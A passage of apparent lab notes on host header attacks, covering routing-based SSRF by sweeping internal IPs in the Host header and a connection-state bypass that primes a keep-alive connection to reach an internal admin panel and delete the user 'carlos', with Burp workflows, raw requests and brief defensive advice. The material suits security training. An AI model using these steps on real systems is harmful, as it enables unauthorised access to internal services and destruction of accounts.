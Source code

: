```
Cookie: session={SESSION}
Content-Length: 0
```

Notes and pitfalls
- Disable “Update Host header to match target” in Burp to prevent automatic rewrites.
- Some stacks only accept absolute-form for proxy behavior; if `https://` times out, try `http://` in the absolute form.
- If responses set a new session cookie on `/admin`, include it in the subsequent delete request.
- Timing differences during the sweep can distinguish live/internal hosts from dead ones.

Burp workflow (quick)
- Send `GET https://{VICTIMSITE}/` to Repeater; verify modified `Host` isn’t blocked but may change behavior.
- Replace `Host` with `{COLLAB_DOMAIN}` and poll for interactions.
- Send to Intruder; sweep `Host: 192.168.0.§0§` with 0–255.
- In Repeater, use `Host: 192.168.0.{HIT}` with `GET https://{VICTIMSITE}/admin` → copy CSRF + cookie.
- Convert to POST: `POST https://{VICTIMSITE}/admin/delete?csrf={TOKEN}&username=carlos` with `Cookie: session={SESSION}`.

Defensive guidance
- Validate and route based on a canonical, trusted authority; do not derive from absolute request line nor untrusted `Host`.
- Normalize requests to origin-form at the edge before validation and routing.
- Enforce strict allowlists for upstream destinations; segment and authenticate internal admin panels.

# Host validation bypass via connection state attack

Risk: The frontend performs `Host` validation only on the first request of a TCP connection, then assumes subsequent requests on the same connection share the same trusted context. By priming the connection with a benign request, you can send a second request on the same connection that targets an internal service (for example, `192.168.0.1/admin`).

Assumptions
- Frontend keeps connections alive and reuses the same connection for sequential requests (HTTP/1.1 keep-alive).
- Validation decisions are cached per-connection after the first request.
- Internal admin at `192.168.0.1/admin` is reachable through internal routing once the connection is considered trusted.

High-level attack chain
1) Direct `GET /admin` with `Host: 192.168.0.1` is rejected or redirected.
2) Open a connection and send a benign request first (valid `Host` and `/`).
3) Reuse the same connection to send `GET /admin` with `Host: 192.168.0.1`; the frontend routes it internally based on the primed state.
4) Extract CSRF and cookies; then submit a POST to `/admin/delete` to delete `carlos`.

Burp workflow (grouped single connection)
1) Tab A (malicious):
```
GET /admin HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
```
2) Tab B (primer):
```
GET / HTTP/1.1
Host: {VICTIMSITE}
Connection: keep-alive
```
3) Add both tabs to a group → Send group in sequence (single connection). Ensure keep-alive is set. Observe Tab A initially fails alone but succeeds when preceded by Tab B on the same connection.
